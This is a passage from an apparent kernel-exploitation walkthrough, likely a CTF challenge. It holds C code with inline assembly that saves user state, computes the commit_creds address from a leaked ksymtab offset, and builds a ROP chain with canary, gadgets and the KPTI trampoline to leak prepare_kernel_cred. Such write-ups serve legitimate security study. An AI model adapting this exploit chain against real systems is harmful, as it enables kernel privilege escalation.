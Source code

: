 ```c

void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    puts("[*] Saved state");
}
```

### get_creds

With some inline assembly , we can directly move the value of `rax` which now has the offset of our `commit_creds` into a global variable.

```c
void leak_cred(){
    //using inline assembly to store value of rax into a temp variable
    __asm__(".intel_syntax noprefix;"
            "mov temp_store,rax;"
            ".att_syntax");
    commit_creds = ksymtab_commit_creds + (int)temp_store;
    printf("[+] commit_creds -> 0x%lx\n",commit_creds);
    get_pkc();
}
```

Finally , we now call the function to prepare leaking `prepare_kernel_cred`.

## Leak prepare_kernel_cred

With an exact appoach as the previous payload, we can leak prepare_kernel_cred.

```c
void get_pkc(){
    unsigned long payload[50] = {0};
    int i=0x10;
    payload[i++] = canary;
    payload[i++] = 0; //rbx
    payload[i++] = 0; //r12
    payload[i++] = 0; //rbp
    payload[i++] = pop_rax_ret;
    payload[i++] = ksymtab_prepare_kernel_cred-0x10;
    payload[i++] = mov_rax_rax_16_rbp;
    payload[i++] = 0; //pop rbp
    payload[i++] = kpti_trampoline;
    payload[i++] = 0; //pop rax
    payload[i++] = 0; //pop rdi
    payload[i++] = (unsigned long)leak_pkc;
    payload[i++] = user_cs;
    payload[i++] = user_rflags;
    payload[i++] = user_sp;
    payload[i++] = user_ss;
    puts("[*] Launching payload to leak prepare_kernel_cred!");
    write(fd,payload,sizeof(payload));
}
```
